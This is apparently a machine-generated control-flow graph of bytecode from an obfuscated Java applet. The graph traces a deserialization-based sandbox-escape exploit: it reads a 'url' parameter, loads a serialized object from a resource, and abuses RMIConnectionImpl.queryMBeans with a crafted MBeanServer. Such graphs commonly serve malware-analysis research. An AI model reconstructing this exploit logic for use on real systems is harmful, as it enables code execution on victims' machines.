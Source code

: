 digraph "" {
    "r0 := @this: IaA_hA"
    "load.r r0"
    "r0 := @this: IaA_hA"->"load.r r0";
    "push \"url\""
    "load.r r0"->"push \"url\"";
    "virtualinvoke <IaA_hA: java.lang.String getParameter(java.lang.String)>"
    "push \"url\""->"virtualinvoke <IaA_hA: java.lang.String getParameter(java.lang.String)>";
    "staticput <IaA_hA: java.lang.String host>"
    "virtualinvoke <IaA_hA: java.lang.String getParameter(java.lang.String)>"->"staticput <IaA_hA: java.lang.String host>";
    "push \"8888\""
    "staticput <IaA_hA: java.lang.String host>"->"push \"8888\"";
    "staticput <IaA_hA: java.lang.String s_port>"
    "push \"8888\""->"staticput <IaA_hA: java.lang.String s_port>";
    "push null"
    "staticput <IaA_hA: java.lang.String s_port>"->"push null";
    "store.r r15"
    "push null"->"store.r r15";
    "new java.io.ObjectInputStream"
    "store.r r15"->"new java.io.ObjectInputStream";
    "dup1.r"
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "store.r r0"
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "push 0"
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "new java.lang.StringBuilder"
    "staticget <java.lang.System: java.io.PrintStream out>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"IOException: \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"IOException: \"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"IOException: \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "goto return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r r0";
    "new BZ_zHWhJ"
    "load.r r0"->"new BZ_zHWhJ";
    "new BZ_zHWhJ"->"dup1.r";
    "specialinvoke <BZ_zHWhJ: void <init>()>"
    "dup1.r"->"specialinvoke <BZ_zHWhJ: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <BZ_zHWhJ: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"javasucks\""
    "load.r r0"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "load.r r15"
    "push null"->"load.r r15";
    "load.r r15"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r r0"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticget <IaA_hA: java.lang.String filename>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticget <IaA_hA: java.lang.String filename>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticget <IaA_hA: java.lang.String filename>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r15";
    "store.r r15"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
